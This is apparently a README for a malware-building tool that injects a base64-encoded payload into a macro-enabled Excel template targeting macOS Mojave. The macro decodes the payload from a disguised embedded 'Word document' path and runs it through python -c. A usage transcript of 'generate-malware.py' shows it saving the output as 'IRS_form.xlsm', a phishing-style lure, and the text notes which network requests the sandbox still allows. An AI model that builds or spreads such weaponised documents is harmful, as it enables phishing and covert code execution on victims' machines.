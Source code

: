 # MacOS_VBA_Macro
Example VBA Macro for MacOS Mojave 10.14

DISCLAIMER: This software may contain bugs, both apparent and less apparent ones. We do not accept responsibility for any problems that arise from use of this software. Use entirely at your own risk.

# Summary
The template excel document contains a macro targeting MacOS.
The macro expects a base64 encoded payload to exist at xl/embeddings/Microsoft_Word_Document2.docx.
It will then base64 decode and run the script as a one-liner in a python command (python -c "command").
Note: MacOS 10.14 Mojave does not allow any child processes from Microsoft Excel to establish a socket. Normal get/post request are fine.

# Generate from the python script
```
malware $python generate-malware.py -h
Usage: generate-malware.py [options]

Options:
  -h, --help            show this help message and exit
  -p PAYLOAD_FILENAME, --payload=PAYLOAD_FILENAME
  -t TEMPLATE_FILENAME, --template=TEMPLATE_FILENAME
  -o OUTPUT_FILENAME, --output=OUTPUT_FILENAME
malware $python generate-malware.py -p ../python_payload.bin 
template-doc/Workbook1.xlsm
temp.0.352844482538/payload.tmp
Successful
Saved as temp.0.352844482538/IRS_form.xlsm
```
